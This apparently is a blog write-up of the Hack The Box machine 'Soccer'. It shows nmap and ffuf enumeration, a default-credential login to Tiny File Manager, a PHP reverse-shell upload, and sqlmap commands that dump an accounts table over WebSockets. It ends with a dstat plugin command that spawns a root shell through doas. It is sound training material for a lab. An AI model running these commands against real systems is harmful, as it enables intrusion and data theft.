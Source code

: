 ```yaml
---
layout: post
title:  "Soccer - An HTB easy machine"
date:   2024-12-1 18:36:56 +0200
categories: ctf
---
```

![soccer.png](/assets/soccer/soccer.png)
[Link to target](https://app.hackthebox.com/machines/Soccer)

# Capture the Flag (CTF) Write-Up: Soccer.htb

## Table of Contents
1. [Initial Enumeration](#initial-enumeration)
    - [Nmap Scan](#nmap-scan)
    - [Key Findings](#key-findings)
2. [Enumeration and Exploitation](#enumeration-and-exploitation)
    - [Discovering Tiny File Manager](#discovering-tiny-file-manager)
    - [Exploiting Tiny File Manager](#exploiting-tiny-file-manager)
    - [Uploading Reverse Shell](#uploading-reverse-shell)
3. [Post-Exploitation](#post-exploitation)
    - [Discovering Virtual Host](#discovering-virtual-host)
    - [Analyzing New Web Application](#analyzing-new-web-application)
    - [SQL Injection via WebSockets](#sql-injection-via-websockets)
4. [Privilege Escalation](#privilege-escalation)
    - [Analyzing SUID Programs](#analyzing-suid-programs)
    - [Exploiting dstat with Custom Plugin](#exploiting-dstat-with-custom-plugin)
5. [Conclusion](#conclusion)

---

## Initial Enumeration

### Nmap Scan
I started with an **Nmap** scan to identify open ports and services.

```bash
nmap -sV -sC -oN nmap.txt 10.10.11.194
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
```

### Key Findings
- **HTTP Server:** Accessible at `http://soccer.htb/`.
- **SSH Service:** Running OpenSSH 8.2p1.
- **Unusual Service:** Port 9091 showing potential custom functionality.

## Enumeration and Exploitation

### Discovering Tiny File Manager
Using directory brute-forcing tools like **ffuf**, I discovered a Tiny File Manager instance:
![c53a8d623285f69236b32da30a688f2e.png](/assets/soccer/c53a8d623285f69236b32da30a688f2e.png)

- **URL:** `http://soccer.htb/tiny/`
- **Version:** 2.4.3 (retrieved from source code comments).

### Exploiting Tiny File Manager
After searching online, I found the **default credentials** for Tiny File Manager:
![f4769880423d6a33128b411a1d1f8b99.png](/assets/soccer/f4769880423d6a33128b411a1d1f8b99.png)

- **Username:** admin
- **Password:** admin@123

Using these credentials, I logged into the file manager successfully.

![40de08c94e1e4f29f3499f9c9d2e19a9.png](/assets/soccer/40de08c94e1e4f29f3499f9c9d2e19a9.png)

### Uploading Reverse Shell
I noticed that the **uploads** directory had write permissions. I created a **PHP reverse shell** and uploaded it through the file manager.

With the shell uploaded, I accessed it to gain an initial foothold on the server.

## Post-Exploitation

### Discovering Virtual Host
While enumerating **nginx configuration files**, I identified a virtual host configuration pointing to a secondary application.

- **Virtual Host:** `soc-player.soccer.htb`

![330e5a73c7b25874da1de52f56ce540e.png](/assets/soccer/330e5a73c7b25874da1de52f56ce540e.png)

### Analyzing New Web Application

![6c162e98c432ccc61690e5ac3e7bc21a.png](/assets/soccer/6c162e98c432ccc61690e5ac3e7bc21a.png)

The new application presented a **login page**. After creating an account, I observed that it utilized **WebSocket requests** to handle input.
![122d210b22013cdb7766a86709b209b2.png](/assets/soccer/122d210b22013cdb7766a86709b209b2.png)
- Example WebSocket request:
    ```json
    {"id":"text"}
    ```

### SQL Injection via WebSockets
Using **sqlmap**, I tested for SQL injection in the WebSocket endpoint:
![2bcbaee8db9a1f86659de7a561c7f398.png](/assets/soccer/2bcbaee8db9a1f86659de7a561c7f398.png)
```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```
Results:
```
back-end DBMS: MySQL >= 5.0.12
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Dumping the accounts table from soccer_db:
```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' -D soccer_db -T accounts --dump --threads 10 --level 5 --risk 3 --batch
```
```
| id   | email             | password   | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | *REDACTED* | player   |
+------+-------------------+----------------------+----------+
```

## Privilege Escalation

### Analyzing SUID Programs
After logging into SSH with the `player` credentials, I searched for SUID programs. I discovered that `doas` was configured to allow the `player` user to run `dstat` as root.

**Configuration:**
```plaintext
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat with Custom Plugin
Using the information from [GTFOBins](https://gtfobins.github.io/gtfobins/dstat/), I created a custom plugin to execute arbitrary commands:

1. Create the plugin:
    ```python
    echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py
    ```

2. Execute `dstat` with the plugin:
    ```bash
    doas -u root /usr/bin/dstat --xxx
    ```

**Result:** I obtained a root shell!

![7d0c72c6cb4604ec17358cecafa3afc9.png](/assets/soccer/7d0c72c6cb4604ec17358cecafa3afc9.png)
## Conclusion
This CTF demonstrated various techniques and highlighted critical vulnerabilities in system and application security:

- **Enumeration:** Identified services and applications using tools like Nmap and ffuf.
- **Exploitation:** Gained access via default credentials on Tiny File Manager and exploited SQL injection vulnerabilities in WebSocket endpoints.
- **Post-Exploitation:** Used the initial foothold to uncover misconfigurations in the system, such as virtual host information and database credentials.
- **Privilege Escalation:** Leveraged a misconfigured `doas` command to exploit the `dstat` program with a custom plugin and escalate privileges to root.

This challenge underscored the importance of:
1. Properly securing web applications (e.g., avoid default credentials).
2. Validating inputs to prevent SQL injection.
3. Configuring SUID programs and privilege escalation paths securely.

In the end, I successfully obtained root access, completing the challenge.
